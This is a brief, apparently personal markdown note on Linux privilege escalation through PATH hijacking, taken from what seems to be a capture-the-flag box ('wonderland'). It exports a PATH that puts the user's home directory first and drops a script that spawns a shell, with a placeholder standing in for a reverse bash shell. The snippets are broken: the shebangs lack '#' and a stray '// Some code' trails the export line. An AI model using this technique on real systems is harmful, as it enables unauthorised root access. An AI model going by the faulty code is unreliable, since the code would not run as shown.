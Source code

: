 # Linux PrivEsc

Use This script when we have to upload an script ;first try this instead uploading an backroom

```
!bin/sh
bash
```

```
rabbit@wonderland:echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH// Some code
```

```
!bin/bash
<a reverse bash script from google>
```
